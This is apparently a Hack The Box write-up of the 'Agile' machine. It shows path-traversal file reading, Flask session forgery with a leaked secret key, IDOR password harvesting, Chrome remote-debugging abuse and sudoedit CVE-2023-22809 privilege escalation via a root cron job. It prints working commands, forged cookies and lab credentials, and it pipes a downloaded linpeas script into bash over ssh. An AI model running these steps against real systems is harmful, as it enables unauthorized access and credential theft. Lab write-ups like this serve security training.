

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.129.28.173 superpass.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is redirecting to `superpass.htb`



* Web server is running python flask application(?)
* Debug mode is enabled in the web application, application is returning detailed trace back error when something unexpected data inputs.
* App is Using "jinja" template engine.

gobuster found a `/download` directory.

```bash
❯ gobuster dir -w ~/git-tools/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u "http://superpass.htb" -t 100

... [snip] ...

/download             (Status: 302) [Size: 249] [--> /account/login?next=%2Fdownload]
/static               (Status: 301) [Size: 178] [--> http://superpass.htb/static/]
/vault                (Status: 302) [Size: 243] [--> /account/login?next=%2Fvault]
```

But it return traceback error which looks interesting



# Foothold

### LFI

Register an account, login to the valut and Add a password in the "vault" after clicking on export it redirect to `/download?fn=test_export_34e63cbfb4.csv` and download stored passwords in a CSV file.

And from the above `/download` error, looks like we are in the `/tmp` directory.

we can escape `tmp` directory using LFI in `fn` parameter.



And application directory leaked from the debug errors - `/app/app/superpass/`

So we can leak the `app.py` source code.



And from the `app.py`, got the flask SECRET_KEY.

```py
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

Valut source code found here - `/app/app/superpass/views/vault_views.py`

With the  SECRET_KEY we can use `flask-unsign` to decode and sign new session token.

```bash
❯ flask-unsign -d -c ".eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfRuD9B50hRQ4.ZARHiA.dymzbGkU0yxJeHDHknKkGcDd5t8" --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD

{'_flashes': [('message', 'Please log in to access this page.')], '_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```

And we can sign new session token with the secret

```bash
❯ flask-unsign -s -c "{'_flashes': [('message', 'Please log in to access this page.')], '_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1'}" --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD

.eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfJsD7D50JRQY.ZARf_g.NrJ-Ach0jpX7kfciZMW9pnmJRlU
```

While changing the "`_user_id`" to `8` we can the password for site `agile` - `corum:5db7caa1d13cc37c9fc2` 

And we can reuse them to ssh in the box.

### IDOR

**Unintended(?)**

Back to vault dashboard, when we add password and after adding it. if we click on edit button, a request send to the server `/vault/edit_row/<ID>`.

And the application is not properly check the session and we can leak any user's password using IDOR.

Which leaked the ssh creds - `corum:5db7caa1d13cc37c9fc2` from ID - 8



# Privesc

Got ssh as user "corum" and there are few more users in the box.

```bash
corum@agile:~$ cat /etc/passwd | grep -E *sh$
root:x:0:0:root:/root:/bin/bash
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```

Running linpeas in the background

```bash
wget --no-check-certificate https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
ssh corum@superpass.htb bash < linpeas.sh
```

A cron is executing `/bin/bash /app/test_and_update.sh` as user "runner" which  script which is running `/usr/bin/google-chrome` with remote debugging enabled on port "41829".



This script is running test application from `/app/app-testing`

In the `/app/app-testing/tests/functional` directory, there is a `creds.txt` file and a `test_site_interactively.py` script which automate wep app features.

```bash
corum@agile:/app/app-testing/tests/functional$ ls -l
total 12
drwxrwxr-x 2 runner    runner 4096 Mar  5 09:15 __pycache__
-rw-r----- 1 dev_admin runner   34 Mar  5 09:18 creds.txt
-rw-r--r-- 1 runner    runner 2663 Mar  5 09:18 test_site_interactively.py
```

Test application is running on hostname `test.superpass.htb`

And it we see the nginx sites config, `test.superpass.htb` only accessible from localhost.

```bash
corum@agile:/etc/nginx/sites-enabled$ cat /etc/nginx/sites-available/superpass-test.nginx
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass http://127.0.0.1:5555;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```

* This app is running on port 5555
* and also the "superpass" app source is same and their SECRET_KEY is also same (`/app/app-testing/superpass/app.py`) so we can sign a token and use same IDOR from above to find that user's passwords who is logging in using creds stored in the `creds.txt`.

```bash
curl -b "session=.eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfJsD7D50JRQY.ZARgKg.D7KY3_1sR6Ts2BGJmcL2SSrOmsE" http://127.0.0.1:5555/vault/edit_row/1
```



<!-- edwards:d07867c6267dcb5df0af -->

## Chrome Debug Mode

**Intended(?)**

Creating ssh tunnel to redirect debugger port to our machine.

```bash
ssh -L 41829:localhost:41829 admin@server.com
```

Add the target in the chrome browser from `chrome://inspect/#devices` using "Discover network targets" option.

And when it appear in the remote target list, open `http://test.superpass.htb/vault` url.



and clicking on the inspect, you can see the vault dashboard.



Got the ssh creds for user "edwards" - `edwards:d07867c6267dcb5df0af`

## Sudoedit CVE-2023-22809

user "edwards" has some sudo rights and can run `sudoedit` on file `/app/config_test.json` as user "dev_admin"
```bash
edwards@agile:~$ sudo -l
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

This `/app/config_test.json` config file contains mysql creds - `superpasstester:VUO8A2c2#3FnLq3*a9DX1U`

```bash
sudo -u dev_admin sudoedit /app/config_test.json
```



But these creds doesn't help and after some ramblling, i found a CVE CVE-2023-22809 in sudo versions: 1.8.0 to 1.9.12p1

> In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

and running sudo version is 
```bash
edwards@agile:/dev/shm$ sudo -V
Sudo version 1.9.9
```

So we can edit any file that owned by user "dev_admin". 

Finding everything that owned by "dev_admin"

```bash
edwards@agile:~$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json

edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

and pspy catch a event where a cron is executing `/app/venv/bin/activate` as root.


So we can add reverse shell in the `/app/venv/bin/activate` bash script. and cron will execute this as root.
```bash
export EDITOR="vim -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```



